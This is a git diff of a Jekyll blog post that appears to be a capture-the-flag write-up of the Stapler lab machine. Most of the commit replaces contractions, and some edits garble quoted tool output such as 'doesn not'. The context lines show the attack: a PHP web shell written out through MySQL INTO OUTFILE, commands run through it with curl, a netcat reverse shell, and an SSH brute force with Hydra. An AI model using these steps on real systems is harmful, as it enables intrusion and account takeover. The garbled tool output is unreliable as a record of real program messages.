

Before and after one commit to holstrater/holstrater.github.io, a Jekyll site: the page built from _posts/2020-05-03-stapler.md, in a window 1280 px wide and 1400 px high, scrolled down 1370 px. Shown: the whole window at 92% size, without its empty margins (0-998 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
6th post attempt

````diff
--- a/_posts/2020-05-03-stapler.md
+++ b/_posts/2020-05-03-stapler.md
@@ -35,7 +35,7 @@ PORT     STATE  SERVICE     VERSION
 20/tcp   closed ftp-data
 21/tcp   open   ftp         vsftpd 2.0.8 or later
 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
-|_Can't get directory listing: PASV failed: 550 Permission denied.
+|_Can not get directory listing: PASV failed: 550 Permission denied.
 | ftp-syst:
 |   STAT:
 | FTP server status:
@@ -211,12 +211,12 @@ END_TIME: Sun May  3 06:04:32 2020
 DOWNLOADED: 4612 - FOUND: 2
 ```
 
-I downloaded the `bashrc` and `.profile` files that were found, but only found standard stuff in them. The fact that there was absolutely nothing to be found on the website didn't sit right with me, so I did a more thorough `nmap` scan just incase and I found this:
+I downloaded the `.bashrc` and `.profile` files that were found, but only found standard stuff in them. The fact that there was absolutely nothing to be found on the website didn't sit right with me, so I did a more thorough `nmap` scan just incase and I found this:
 
 ```bash
 12380/tcp open   http        Apache httpd 2.4.18 ((Ubuntu))
 |_http-server-header: Apache/2.4.18 (Ubuntu)
-|_http-title: Site doesn't have a title (text/html).
+|_http-title: Site doesn not have a title (text/html).
 ```
 
 Rerunning `nikto` on this newly discovered port returned a lot more:
@@ -237,7 +237,7 @@ kali@kali:~$ nikto -p 12380 -h 192.168.56.114
 + Server: Apache/2.4.18 (Ubuntu)
 + The anti-clickjacking X-Frame-Options header is not present.
 + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
-+ Uncommon header 'dave' found, with contents: Soemthing doesn't look right here
++ Uncommon header 'dave' found, with contents: Soemthing does not look right here
 + The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
 + The site uses SSL and Expect-CT header is not present.
 + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
@@ -265,7 +265,7 @@ _______________________________________________________________
          __          _______   _____
          \ \        / /  __ \ / ____|
           \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
-           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
+           \ \/  \/ / |  ___/ \___ \ / __|/ _  | _   \
             \  /\  /  | |     ____) | (__| (_| | | | |
              \/  \/   |_|    |_____/ \___|\__,_|_| |_|
 
@@ -435,7 +435,7 @@ Interesting Finding(s):
  | Style URL: https://192.168.56.114:12380/blogblog/wp-content/themes/twentyfifteen/style.css
  | Style Name: Twenty Fifteen
  | Style URI: https://wordpress.org/themes/twentyfifteen/
- | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
+ | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteens simple, st...
  | Author: the WordPress team
  | Author URI: https://wordpress.org/
  |
@@ -577,7 +577,7 @@ kali@kali:~$ wget https://192.168.56.114:12380/blogblog/wp-content/uploads/19300
 --2020-05-03 07:58:34--  https://192.168.56.114:12380/blogblog/wp-content/uploads/1930028253.jpeg
 Connecting to 192.168.56.114:12380... connected.
 WARNING: The certificate of ‘192.168.56.114’ is not trusted.
-WARNING: The certificate of ‘192.168.56.114’ doesn't have a known issuer.
+WARNING: The certificate of ‘192.168.56.114’ doesn not have a known issuer.
 The certificate's owner does not match hostname ‘192.168.56.114’
 HTTP request sent, awaiting response... 200 OK
 Length: 3042 (3.0K) [image/jpeg]
@@ -598,7 +598,7 @@ kali@kali:~$ cat 1930028253.jpeg
  * Codex page. You can get the MySQL settings from your web host.
  *
  * This file is used by the wp-config.php creation script during the
- * installation. You don't have to use the web site, you can just copy this file
+ * installation. You do not have to use the web site, you can just copy this file
  * to "wp-config.php" and fill in the values.
  *
  * @package WordPress
@@ -620,7 +620,7 @@ define('DB_HOST', 'localhost');
 /** Database Charset to use in creating database tables. */
 define('DB_CHARSET', 'utf8mb4');
 
-/** The Database Collate type. Don't change this if in doubt. */
+/** The Database Collate type. Do not change this if in doubt. */
 define('DB_COLLATE', '');
 
 /**#@+
@@ -693,13 +693,13 @@ Database changed
 MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/blogblog/wp-content/uploads/inject.php";
 ERROR 1 (HY000): Can't create/write to file '/var/www/html/blogblog/wp-content/uploads/inject.php' (Errcode: 2 - No such file or directory)
 MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/inject.php";
-ERROR 1 (HY000): Can't create/write to file '/var/inject.php' (Errcode: 13 - Permission denied)
+ERROR 1 (HY000): Can not create/write to file '/var/inject.php' (Errcode: 13 - Permission denied)
 MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/inject.php";
-ERROR 1 (HY000): Can't create/write to file '/var/www/inject.php' (Errcode: 13 - Permission denied)
+ERROR 1 (HY000): Can not create/write to file '/var/www/inject.php' (Errcode: 13 - Permission denied)
 MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/inject.php";
-ERROR 1 (HY000): Can't create/write to file '/var/www/html/inject.php' (Errcode: 2 - No such file or directory)
+ERROR 1 (HY000): Can not create/write to file '/var/www/html/inject.php' (Errcode: 2 - No such file or directory)
 MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/inject.php";
-ERROR 1 (HY000): Can't create/write to file '/var/www/https/inject.php' (Errcode: 13 - Permission denied)
+ERROR 1 (HY000): Can not create/write to file '/var/www/https/inject.php' (Errcode: 13 - Permission denied)
 MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/blogblog/wp-content/uploads/inject.php";
 Query OK, 1 row affected (0.001 sec)
 kali@kali:~$ curl -k https://192.168.56.114:12380/blogblog/wp-content/uploads/inject.php?cmd=ls
@@ -722,7 +722,7 @@ connect to [192.168.56.102] from (UNKNOWN) [192.168.56.102] 37110
 HTTP/1.1 200 OK
 Date: Sun, 03 May 2020 13:00:26 GMT
 Server: Apache/2.4.18 (Ubuntu)
-Dave: Soemthing doesn't look right here
+Dave: Soemthing does not look right here
 Content-Length: 0
 Content-Type: text/html; charset=UTF-8
 
@@ -737,7 +737,7 @@ I tried again through various other ways of which the following Python alternati
 kali@kali:~$ nc -nlvp 7777
 listening on [any] 7777 ...
 connect to [192.168.56.102] from (UNKNOWN) [192.168.56.114] 32930
-/bin/sh: 0: can't access tty; job control turned off
+/bin/sh: 0: can not access tty; job control turned off
 $ whoami
 www-data
 ```
@@ -813,7 +813,7 @@ Both credentials did in fact work. Doing so as `JKanode` didn't gain me much, bu
 $ ssh peter@localhost
 ssh peter@localhost
 Could not create directory '/var/www/.ssh'.
-The authenticity of host 'localhost (127.0.0.1)' can't be established.
+The authenticity of host 'localhost (127.0.0.1)' can not be established.
 ECDSA key fingerprint is SHA256:WuY26BwbaoIOawwEIZRaZGve4JZFaRo7iSvLNoCwyfA.
 Are you sure you want to continue connecting (yes/no)? yes
 yes
@@ -883,7 +883,8 @@ Note: there were several kernel- and OS-based exploits that I could've used to g
 
 When I enumerated the SMB service running on the target, I found a pretty big list of usernames:
 
-```S-1-22-1-1000 Unix User\peter (Local User)
+```bash
+S-1-22-1-1000 Unix User\peter (Local User)
 S-1-22-1-1001 Unix User\RNunemaker (Local User)
 S-1-22-1-1002 Unix User\ETollefson (Local User)
 S-1-22-1-1003 Unix User\DSwanger (Local User)
@@ -915,7 +916,7 @@ S-1-22-1-1028 Unix User\www (Local User)
 S-1-22-1-1029 Unix User\elly (Local User)
 ```
 
-I'm not a big fan of running long, intensive bruteforce attempts (especially on the laptop I'm using), so usually I don't go further than checking for identical username and password combinations or very simple wordlist-based attempts. Since I couldn't find anything that interesting using `smbclient`, I went the SSH route instead and went for a quick bruteforce. First, I had to organize all of the usernames from earlier in a .txt file:
+I'm not a big fan of running long, intensive bruteforce attempts (especially on the laptop I'm using), so usually I don't go further than checking for identical username and password combinations or very simple wordlist-based attempts. Since I couldn't find anything that interesting using `smbclient`, I went the SSH route instead and went for a quick bruteforce. First, I had to organize all of the usernames from earlier in a `.txt` file:
 
 ```bash
 kali@kali:~$ awk -F'\' '{ print $2 }' stapler_users.txt | awk -F' ' '{ print $1 > "stapler_users.txt" }'
@@ -970,14 +971,14 @@ Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 16:47:
 [ERROR] 0 targets did not complete
 Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 16:50:33
 kali@kali:~$ ssh SHayslett@192.168.56.114
-The authenticity of host '192.168.56.114 (192.168.56.114)' can't be established.
+The authenticity of host '192.168.56.114 (192.168.56.114)' can not be established.
 ECDSA key fingerprint is SHA256:WuY26BwbaoIOawwEIZRaZGve4JZFaRo7iSvLNoCwyfA.
 Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
 Warning: Permanently added '192.168.56.114' (ECDSA) to the list of known hosts.
 -----------------------------------------------------------------
-~          Barry, don't forget to put a message here           ~
+~          Barry, do not forget to put a message here           ~
 -----------------------------------------------------------------
-SHayslett@192.168.56.114's password:
+SHayslett@192.168.56.114s password:
 Welcome back!
 
 
````
Also changed, not shown: other parts of _posts/2020-05-03-stapler.md (+3 -3 lines), 1 other file.
